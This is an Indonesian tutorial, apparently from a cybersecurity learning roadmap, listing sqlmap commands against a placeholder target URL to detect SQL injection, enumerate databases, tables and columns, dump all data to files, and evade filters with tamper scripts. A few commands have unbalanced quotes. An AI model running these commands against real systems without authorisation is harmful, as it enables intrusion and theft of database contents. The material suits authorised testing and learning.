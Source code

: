 > 💡 **Tip:** Teliti ketiga website cybersecurity terakhir untuk menemukan domain yang sesuai dengan minat Anda. Gunakan AI untuk riset lebih mendalam.


*TUTORIAL MENGGUNAKAN SQLMAP*

*PERINTAH DASAR SQLMAP*
*Step 1 Cek Kerentanan SQLI URL, Perintah:*
```sqlmap -u "https://target.com/src.php?id=5" --batch```

*Step 2 Ambil Informasi Database:*
```sqlmap -u "https://target.com/src.php?id=5" --dbs```

*Ambil Tabel Dari Database Tertentu/Cek Nama Tabel Dari Databasenya:*
```sqlmap -u "https://target.com/src.php?id=5" -D nama_database --tables```

*Ambil Kolom Dari Database/Cek Nama Kolom Dari Database:*
```sqlmap -u "https://target.com/src.php?id=5" -T nama_tabel --columns```

*Dump data/ambil/download database*

*Dump data dari tabel:*
```sqlmap -u "https://target.com/src.php?id=5 -D nama_database -T nama_tabel --dump```

*Dump Semua Database(Prosesnya Bisa Lama, Tergantung Isi Database Atau Jaringannya):*
```sqlmap -u "https://target.com/src.php?id=5 --dump-all```

*Contoh Dump Tapi Nyimpan Hasil Kefile:*
```sqlmap -u "https://target.com/src.php?id=5" --dump-all --output-dir=path/to/folder_name```

*Cara Tamper Data Dengan SQLMAP*
*Step 1 Cek List Daftar Script Tamper Data:*
```sqlmap --list-tampers```

*Step 2 Cara Menggunakan Satu Script Tamper:*
```sqlmap -u "https://target.com/src.php?id=5" --tamper=nama_script_tamper```

*Step 3 Cara Menggunakan Banyak Script Tamper:*
```sqlmap -u "https://target.com/src.php?id=5" --tamper="nama_tamper1, nama_tamper2, nama_tamper3"```

*CARA MEMAKAI LEVEL DAN RISK DI SQLMAP*
*Info: level bernilai 1-5 default 1, semakin tinggi nilainya semakin banyak payload dan parameter yang diuji*

*Info: risk nilainya 1-3 default 1, menentukan tingkat resiko payload yang dicoba*

*Cara Penggunaan Level Dan Risk:*
```sqlmap -u "https://target.com/src.php?id=5" --level=3 --risk=2```

*Semakin tinggi keduanya scannging menjadi lebih lama*
Nah kalau untuk critical sama warning itu, critical berarti menunjukkan masalah serius sehingga sqlmap tidak bisa lanjut, kalau warning sqlmap hanya memberi peringatan tapi sqlmap tetap berjalan

---

`#BukanOmongKosong` `#IndonesiaCriticalThinking` `#BelajarBasic` `#Proses` `#MenghargaiKaryaOrangLain`

---


This roadmap is compiled from various sources for educational purposes. Please respect the original creators and use this knowledge ethically.

---

```